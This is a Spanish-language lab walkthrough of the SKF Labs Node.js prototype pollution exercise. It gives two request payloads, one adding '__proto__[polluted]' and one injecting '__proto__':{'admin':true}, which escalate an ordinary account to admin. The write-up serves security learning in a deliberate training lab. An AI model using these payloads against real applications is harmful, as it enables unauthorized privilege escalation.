 Utilizaremos este laboratorio:
https://github.com/blabla1337/skf-labs/tree/master/nodeJs/Prototype-Pollution
![[Pasted image 20240523222345.png]]
Lo lanzamos:
![[Pasted image 20240523222421.png]]
Y veremos esto por el puerto 5000:
![[Pasted image 20240523222611.png]]
Nos creamos una cuenta pero no tenemos permisos privilegiados:
![[Pasted image 20240523222706.png]]
Si miramos el código de app.js, vemos que cuando somos admin la propiedad está en true, y si no pone false:
![[Pasted image 20240523222812.png]]
Se nos muestra que podemos enviar un mensaje al administrador:
![[Pasted image 20240523222839.png]]
Si interceptamos la petición, así es como se envía:
![[Pasted image 20240523223013.png]]
Para explotar la vulnerabilidad, añadimos lo siguiente y vemos un panel de /login:
```bash
email=pinguino%40pinguino.es&msg=prueba&__proto__[polluted]=yes
```
![[Pasted image 20240523223238.png]]
Ahora para explotar la vulnerabilidad, inyectamos el siguiente payload:
```bash
{
   "email": "info@pinguino.com",
   "msg": "hola",
   "__proto__":{
   "admin":true
   }
}
```
![[Pasted image 20240523224107.png]]
Enviamos la petición, y ahora somos admin:
![[Pasted image 20240523224132.png]]
